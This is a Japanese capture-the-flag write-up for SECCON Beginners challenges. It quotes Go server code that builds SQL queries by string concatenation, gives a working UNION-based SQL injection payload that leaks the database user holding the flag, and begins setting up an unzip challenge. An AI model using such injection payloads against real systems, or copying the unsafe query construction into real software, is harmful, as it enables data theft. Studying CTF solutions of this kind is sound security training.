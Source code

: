 ## Tweetstore
```
Search your flag!
Server: https://tweetstore.quals.beginners.seccon.jp/
File: https://score.beginners.seccon.jp/files/tweetstore.zip-ba4fce11c55ef57568fbca33f73c5ce022cad1c2
```

サーバプログラムが与えらえる.
次の2箇所を読むとSQLiでdbuserをリークさせる問題と推察される.

```
dbname := "ctf"
dbuser := os.Getenv("FLAG")
dbpass := "password"

connInfo := fmt.Sprintf("port=%d host=%s user=%s password=%s dbname=%s sslmode=disable", 5432, "db", dbuser, dbpass, dbname)
db, err = sql.Open("postgres", connInfo)
```

```
var sql = "select url, text, tweeted_at from tweets"

search, ok := r.URL.Query()["search"]
if ok {
	sql += " where text like '%" + strings.Replace(search[0], "'", "\\'", -1) + "%'"
}
```

現在のユーザー名を参照するシステム関数は`user`なので, search[0]に次の文字列を与えるとフラグが手に入る.

```
' or 1 = 1 UNION select url, user, tweeted_at from tweets--
```

参考: https://www.postgresql.jp/document/7.3/user/functions-misc.html

## unzip
```
Unzip Your .zip Archive Like a Pro.
https://unzip.quals.beginners.seccon.jp/
Hint:
index.php (sha1: 968357c7a82367eb1ad6c3a4e9a52a30eada2a7d)
Hint
(updated at 5/23 17:30) docker-compose.ym
```

dockerfileによると`./flag.txt`を表示させることが目標となる.

```
- ./public:/var/www/web
- ./uploads:/uploads
- ./flag.txt:/flag.txt
```
